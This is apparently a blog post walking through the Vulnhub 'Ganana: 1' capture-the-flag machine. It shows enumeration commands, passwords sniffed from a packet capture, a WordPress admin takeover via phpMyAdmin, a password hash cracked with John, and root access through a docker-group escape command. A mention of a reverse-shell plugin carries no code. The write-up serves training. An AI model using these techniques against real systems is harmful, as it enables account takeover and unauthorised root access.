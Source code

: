 ```yaml
---
layout: post
title:  "Vulnhub - GANANA: 1"
date:   2020-12-22 21:00:00 +1100
category: hacking
---
```


## Introduction
*This is a fairly simple machine rated easy to intermediate. There is only one flag to capture root.txt.*

This is [Ganana: 1](https://www.vulnhub.com/entry/ganana-1,497/) from vulnhub. 

## Ports
We have three open ports, and SSH is closed:

1. 22/tcp   closed ssh
2. 80/tcp   open   http
3. 443/tcp  open   https
4. 6777/tcp open   ntz-tracker

Although this says 6777 is 'ntz-tracker', a detail scan reveals it is actually FTP:

>6777/tcp open  ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)

## FTP
It contains one file:

>Hey Welcome to the ORG!!! Hope you have a wonderfull experence working with US!!!

Not helpful.

## HTTP/HTTPS
The HTTP and HTTPS versions of the site appear to be the same, so I'll use them interchangably. There isn't much on the front page but *robots.txt* has:

>User-agent: *  
Disallow: /wp-admin/  
Allow: /wp-admin/admin-ajax.php

And the *favicon.ico* redirects to http://ganana/wp-includes/images/w-logo-blue-white-bg.png so we appear to have wordpress.

## wpscan

``
root@kali:/opt/vulnhub/ganana# wpscan -e --url http://ganana
``

This doesn't give us much - no users, plugins, themes. I don't try aggressive methods.

## Gobuster
Gobuster with a basic wordlist finds lots of things:

``
root@kali:/opt/vulnhub/ganana# gobuster dir -u http://ganana -w /usr/share/seclists/Discovery/Web-Content/common.txt
``

eg:

{% highlight shell %}
/dashboard            (Status: 302) [Size: 0] [--> http://ganana/secret/?redirect_to=%2Fdashboard]
/embed                (Status: 301) [Size: 0] [--> http://ganana/embed/]
/favicon.ico          (Status: 302) [Size: 0] [--> http://ganana/wp-includes/images/w-logo-blue-white-bg.png]
/feed                 (Status: 301) [Size: 0] [--> http://ganana/feed/]   
/index.php            (Status: 301) [Size: 0] [--> http://ganana/]        
/license              (Status: 200) [Size: 19915]                         
/logout               (Status: 403) [Size: 2787]                          
/lostpassword         (Status: 200) [Size: 10761]  
{% endhighlight %}

There are some others too; including *phpmyadmin* - we'll get to that later - and *tasks*. There is a */secret*, which has the wordpress login. Trying *admin:admin* prompts the message:

>ERROR: I hate bruteforce  
2 attempt(s) left

Yikes! Better not bruteforce.

## Tasks
At https://ganana/tasks we find a note:

>hey Jarret Lee!  
Do manage the office as the admin is away for a few weeks!   
Admin has created an other temp account for you and details in a pcapng file. 

So we better find this file. It only takes a few moments, and we can download it:

{% highlight shell %}
root@kali:/opt/vulnhub/ganana# wget http://ganana/jarret.pcapng
--2020-12-22 04:47:29--  http://ganana/jarret.pcapng
Resolving ganana (ganana)... 192.168.1.172
Connecting to ganana (ganana)|192.168.1.172|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 189728 (185K)
Saving to: ‘jarret.pcapng’

jarret.pcapng                     100%[============================================================>] 185.28K  --.-KB/s    in 0.01s   

2020-12-22 04:47:29 (16.8 MB/s) - ‘jarret.pcapng’ saved [189728/189728]
{% endhighlight %}

I open it with wireshark and look through. Eventually I find the gold:

>log=jarretlee&pwd=NoBrUtEfOrCe__R3Qu1R3d__&redirect_to=http%3A%2F%2F192.168.3.109%2Fwp-admin%2F&testcookie=1HTTP/1.1 200 OK

What can we do with this? Login to wordpress!

## WP
Jarret is not an admin :(

He does have a post though, which is called *Keep dis SECRET!!!!*

>QGx3YXlzLUAtU3VwM3ItU2VjdXIzLXBAU1N3MFJkISE

This decodes to:

>@lways-@-Sup3r-Secur3-p@SSw0Rd!!

What can we do with this? Try admin again at */secret*? Nope - one try left!

## phpMyAdmin
We can login to phpMyAdmin as *jarretlee* with *@lways-@-Sup3r-Secur3-p@SSw0Rd!!*. Once we're there we can find there is only one other wordpress user - *charleywalker*. I have a quick bash at cracking his hash, but it doesn't work. So I just change it to the same as Jarret's and go back to wordpress.

## Charley
Charley **is** a wordpress admin. It turns out we have several plugins making things harder:

>Loginizer: Loginizer is a WordPress plugin which helps you fight against bruteforce attack by blocking login for the IP after it reaches maximum retries allowed.  

>Stop User Enumeration: User enumeration is a technique used by hackers to get your login name if you are using permalinks. This plugin stops that.  

>WPS Hide Login: Protect your website by changing the login URL and preventing access to wp-login.php page and wp-admin directory while not logged-in  

Ah well since Charley likes plugins so much we will add one of our own, to get a reverse shell bwahaha! This works, and we're on.

## Shell
We get a shell as *daemon* to start with, 

>uid=1(daemon) gid=1(daemon) groups=1(daemon)

But we can *su jarretlee* with his 'no bruteforce' password we retrieved earlier. Once we get there, he has a file called *.backups*, which is base64 encoded. This contains a hash:

>jeevan:$6$LXNakaBRJ/tL5F2a$bCgiylk/LY2MeFp5z9YZyiezsNsgj.5/cDohRgFRBNdrwi/2IPkUO0rqVIM3O8vysc48g3Zpo/sHuo.qwBf4U1:18430:0:99999:7:::

We can throw this at John and crack it:

{% highlight shell %}
root@kali:/opt/vulnhub/ganana# john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hannahmontana    (?)
1g 0:00:00:01 DONE (2020-12-22 05:21) 0.5555g/s 1422p/s 1422c/s 1422C/s skyblue..hassan
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

## Jeevan
Now we can *su jeevan*. Jeevan doesn't have a home directory, but he is a member of the docker group; so that's our privesc.

{% highlight shell %}
jeevan@debian:/home/jarretlee$ cd ~
cd ~
bash: cd: /home/jeevan: No such file or directory
jeevan@debian:/home/jarretlee$ sudo -l
sudo -l
[sudo] password for jeevan: hannahmontana

Sorry, user jeevan may not run sudo on localhost.
jeevan@debian:/home/jarretlee$ groups
groups
jeevan docker
jeevan@debian:/home/jarretlee$ docker run -it -v /:/mnt alpine chroot /mnt
docker run -it -v /:/mnt alpine chroot /mnt
root@8ab8e3461f42:/# cd /root
cd /root
root@8ab8e3461f42:~# ls -lash
ls -lash
total 44K
4.0K drwx------  6    600 root      4.0K Jun 25 06:43 .
4.0K drwxr-xr-x 23    600 root      4.0K Jun 25 04:55 ..
8.0K -rw-------  1 root   root      4.9K Jun 25 07:28 .bash_history
4.0K -rw-r--r--  1 root   root       796 Jun  3  2020 .bashrc
4.0K drwx------  3 root   root      4.0K Jun 25 06:43 .gnupg
4.0K drwxr-xr-x  3 root   root      4.0K Jun  6  2020 .local
4.0K -rw-r--r--  1 root   root       148 Aug 17  2015 .profile
4.0K drwxr-xr-x  3    600 jarretlee 4.0K Jun  7  2020 bitnami
   0 -rw-r--r--  1 root   root         0 Dec 22 09:23 bitnami_credentials
4.0K drwxr-xr-x  2 jeevan jeevan    4.0K Jun 16  2020 jeevan
4.0K -rw-r--r--  1 root   root       501 Jun 17  2020 root.txt
root@8ab8e3461f42:~# cat root.txt
cat root.txt

ASCII ART REMOVED, so you will have to take my word for it.

root@8ab8e3461f42:~# 
{% endhighlight %}

Rooted, and I didn't even use *linpeas*. So yes not complicated but a few steps involved and I quite liked this one. Thumbs up *Jeevana Chandra*.
